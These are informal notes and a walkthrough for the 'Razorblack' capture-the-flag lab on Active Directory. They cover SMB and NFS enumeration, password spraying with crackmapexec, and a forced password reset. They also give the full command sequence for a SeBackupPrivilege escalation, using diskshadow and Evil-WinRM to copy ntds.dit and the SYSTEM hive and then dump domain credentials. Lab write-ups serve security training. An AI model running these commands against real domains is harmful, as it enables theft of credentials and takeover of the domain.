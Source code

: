 # Razorblack
Enum4linux gave a domain name(tried different tld dunno how forgot thm)  
Nfs share on 2049 gives steven's flag  
also got a list of usernames from xlsx file

administrator@raz0rblack.thm  
twilliams@raz0rblack.thm:roastpotatoes

lvetrova@raz0rblack.thm  
sbradley@raz0rblack.thm

pre-auth doesn't give any other hashes  
need to look closer on nmap ports   
smbclient -U 'twilliams%roastpotatoes' -L //10.10.157.225 gives smb shares

`smbclient -U 'twilliams%roastpotatoes'  \\\\10.10.182.10\\SYSVOL` gives useful data, can't believe I missed it!  
 

C:\\Windows\\trash

  
Mode                LastWriteTime         Length Name  
\----                -------------         ------ ----  
\-a----        3/15/2021  11:02 PM       18927164 experiment\_gone\_wrong.zip  
 

[https://linuxcommandlibrary.com/man/evil-winrm](https://linuxcommandlibrary.com/man/evil-winrm) 

Writeup:

```text-plain
crackmapexec smb $IP -u users.txt -p pass.txt
SMB         10.10.25.33    445    HAVEN-DC         [-] raz0rblack.thm\sbradley:roastpotatoes STATUS_PASSWORD_MUST_CHANGE
smbpasswd -r $IP -U sbradley
```

For the user `sbradley` we find an interesting message `STATUS_PASSWORD_MUST_CHANGE` The cause of the message is that The specified password expired. So Let's change the password.

Now we have the read access to `trash`

`crackmapexec smb $IP -u lvetrova -H hashes3.txt` where hashes3.txt has all the dumped passwords(strange I couldn't find one manually, but this works?)

hashes3.txt has to be a lost of line by line hashes(use a llittle `tr` and `awk` magic ) 

Privilege Escalation:
---------------------

see available privileges with `whoami /priv`, we have an interesting privliege:`SeBackupPrivilege` 

It was designed for allowing users to create backup copies of the system. This privilege allows the user to read any file on the entirety of the files that might also include some sensitive files such as the **SAM file or SYSTEM Registry file**.

Before using this exploit we need to Dump the Domain Credentials to a file. For this, we will use [**DiskShadow (a Windows signed binary)**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#using-diskshadow-a-windows-signed-binary)**.**

Prepare the `diskshadow.txt,` execute the `diskshadow.exe`

```text-plain
set metadata C:\tmp\tmp.cabs 
set context persistent nowriters 
add volume c: alias someAlias 
create 
expose %someAlias% h:
```

`*Evil-WinRM* PS C:\Users\xyan1d3> mkdir C:\tmp`   
`*Evil-WinRM* PS C:\tmp> upload diskshadow.txt`

`diskshadow.exe /s c:\tmp\diskshadow.txt`

we need few `dll` files which we can download from [**here**](https://github.com/giuliano108/SeBackupPrivilege). After downloading we need to execute it in the following way and then download the hashes.

```text-plain
*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\tmp> upload SeBackupPrivilegeCmdLets.dll

*Evil-WinRM* PS C:\tmp> import-module .\SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\tmp> import-module .\SeBackupPrivilegeCmdLets.dll

*Evil-WinRM* PS C:\tmp> copy-filesebackupprivilege h:\windows\ntds\ntds.dit C:\tmp\ntds.dit -overwrite

*Evil-WinRM* PS C:\tmp> reg save HKLM\SYSTEM C:\tmp\system

*Evil-WinRM* PS C:\tmp> download ntds.dit

*Evil-WinRM* PS C:\tmp> download system
```